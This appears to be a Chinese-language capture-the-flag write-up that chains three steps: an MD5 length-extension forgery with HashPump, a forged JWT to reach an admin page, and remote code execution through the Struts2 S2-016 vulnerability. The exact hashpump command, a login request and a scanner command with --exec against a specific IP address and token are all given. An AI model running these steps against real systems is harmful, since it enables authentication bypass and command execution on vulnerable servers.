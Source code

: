 - # 思路
	- 使用[HashPump](((64b5744c-69e1-4d03-9fc1-87242bf9d487)))伪造MD5拿到JWT secret, 然后伪造JWT访问后台，最后使用struts2漏洞完成RCE
- # 伪造MD5
	- 因为我们知道`md5(secret + "adminroot")`的hash, 我们可以使用[HashPump](((64b5744c-69e1-4d03-9fc1-87242bf9d487)))构造以`adminroot`为开头的payload并知道`md5(secret + payload)`
	- 使用Hashpump:
		- ```shell
		  /home/user/toolkit/HashPump/hashpump -s e6ccbf12de9d33ec27a5bcfb6a3293df -d adminroot -a root -k 14
		  ```
	- 提交
		- ```python
		  r = base_post(url, data = {
		      "username": "admin",
		      "password": payload.removeprefix(b"admin"),
		  }, cookies = {
		      "digest": h
		  })
		  ```
- # 利用struts漏洞
	- 有[工具](https://github.com/Marven11/Struts2-Scan)，跑以下命令即可
		- ```python
		  python Struts2Scan.py -u 'http://140.210.223.216:55557/admiiiiiiiiiiin/user.action' --header 'access_token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6MjAwNjIzMTU1N30.gqC7CPjNYryrlu83oZYrsbpxC9ghdXIr8B5WaWQ_dEk' -n 'S2-016' --exec
		  ```
